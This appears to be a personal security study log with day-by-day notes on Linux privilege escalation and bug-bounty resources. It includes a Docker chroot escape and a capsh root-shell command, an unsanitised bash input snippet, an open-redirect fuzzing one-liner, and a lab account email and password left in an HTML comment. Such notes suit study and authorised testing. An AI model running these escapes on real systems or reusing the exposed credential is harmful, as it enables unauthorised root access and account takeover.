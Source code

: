 ``` Day01 ```

-----------------------------------
Abu Syed Rahat | 08 October, 2020

-----------------------------------
# Completed Task

1. Created PortsSwigger lab account.

<!-- 
    username: abusyed.rahat2016@gmail.com
    password: xiM3k3nc/6bS76!pCH3r5D42C55Fq2of 
-->
2. Learned Git technology.

# PrivEsc

    1.PrivEsc through Docker 
    
# command : docker run -v /:/mnt --rm -it alpine chroot /mnt sh 
resource: https://gtfobins.github.io/gtfobins/docker/#sudo

details:
user need to be listed in docker groups

    2. Unsanitized Bash input.
`
#!/bin/bash
read -p "input goes here:" massage
$masage 2> /dev/null `


# RESOURCES:

learn about <a herf="https://lolbas-project.github.io/">LOLBAS </a>. Which is similer to <a herf="https://gtfobins.github.io/">  GTFOBins </a>

<a herf="https://www.ikotler.org/docs/InYourPythonPath.pdf"> Python-backdoor </a>

# BUG-BOUNTY

<a herf=" https://speakerdeck.com/harshbothra/offensive-recon-for-bug-bounty-hunters?slide=5"> harsh-bothra-slides </a> <br>
make sure checked Bheem project over github.

<a herf="https://twitter.com/gkhck_/status/1313176674121457666"> http-host-header-attack@Hacker0ne-reports</a><br>

<a herf="https://naglinagli.github.io/BugBounty/"> Modern interpretation of The Web Application Hackers Handbook </a> <br>

<a herf="https://github.com/In3tinct/Taken"> automate subdomain-takeover </a>

# Easy-Hacks
    one-liner open redirection
` gau http://testphp.vulnweb.com | tee -a archive 1>/dev/null && gf redirect archive | qsreplace FUZZ | cut -f 3- -d ':' | while read url; do ffuf -w word -u "$url" -c=true -sa=true -sf=true -se=true -mc=302 -v 2>/dev/null ; done `

<br>


``` Day02 ```
------------------
Abu Syed Rahat , Oct 09 2020
------------------

# PrivEsc

privesc through <b> capsh - "capability shell wrapper" </b> `/usr/sbin/capsh `

attack-vector: `/usr/bin/capsh --user=root -- `

shell will be pop out as root. check man page for more details. 

# BUG-BOUNTY

<h3> Use subjs and linkfinder for js files extraction  </h3>
<a herf="https://github.com/bittentech/SecScraper.git"> hackerone-and-medium-bug-bounty-reports-grabber </a> <br>

<a herf="https://github.com/yunemse48/403bypasser"> 403 bypasser github tools</a> <br>
<!-- https://twitter.com/iam_j0ker/status/1303658167205728256 -->
<img src="https://pbs.twimg.com/media/EheFZJvVgAEuzZ1?format=png&name=small"> 

# story:
- subdomain enumeration
- extract internal adminendpoints form js files
- Fuzz internal endpoints
- look for redirects (eg. 301,302)
- use noredirect bypass admin panel

